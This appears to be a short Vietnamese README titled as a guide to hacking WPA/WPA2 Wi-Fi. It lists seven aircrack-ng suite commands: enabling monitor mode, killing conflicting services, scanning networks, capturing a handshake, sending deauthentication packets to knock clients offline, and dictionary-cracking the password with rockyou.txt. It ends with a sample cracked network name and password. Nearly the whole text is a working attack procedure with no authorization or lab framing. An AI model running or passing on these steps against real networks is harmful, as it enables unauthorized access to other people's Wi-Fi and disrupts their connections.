 ## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

```bash
1. iwconfig
```

→ Kiểm tra các thiết bị kết nối mạng không dây.

```bash
2. sudo airmon-ng start wlan0
```
→ airmon-ng : bật tắt chế độ monitor và dừng tiến trình gây xung đột.

→ Bật chế độ monitor cho card mạng.

```bash
3. sudo airmon-ng check kill
```

→ Dừng các dịch vụ gây xung đột.

```bash
4. sudo airodump-ng wlan0mon
```

→ Quét và thu thập thông tin mạng Wi-Fi.
**Ctrl + C** để thoát.

```bash
5. sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

→ Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```bash
6. sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```

→ Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
Mục đích: ép thiết bị kết nối lại để bết handshake.

```bash
7. sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt
```

→ Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
